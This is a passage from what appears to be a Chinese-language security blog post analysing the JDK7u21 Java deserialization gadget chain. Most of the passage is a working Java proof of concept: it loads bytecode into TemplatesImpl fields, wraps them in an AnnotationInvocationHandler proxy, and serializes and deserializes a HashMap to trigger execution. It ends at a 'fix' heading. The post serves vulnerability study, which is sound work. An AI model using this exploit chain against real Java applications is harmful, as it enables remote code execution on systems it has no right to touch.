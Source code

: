 ```java
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        HashMap Annovar2map = new HashMap();
        Annovar2map.put("f5a5a608",templatesClass);
        InvocationHandler annotationInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, Annovar2map);
        Field typeField = annotationInvocationHandler.getClass().getDeclaredField("type");
        typeField.setAccessible(true);
        Map annoProxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},annotationInvocationHandler);
        HashMap annoset = new HashMap();
        annoset.put(annoProxy,"godown");
        annoset.put(templatesClass,"godown");
        typeField.set(annotationInvocationHandler, Templates.class);
        serialize(annoset);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

所以JDK7u21最外层，用HashMap，HashSet，LinkedHashSet都是可以的

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240923225801055.png)





## 修复
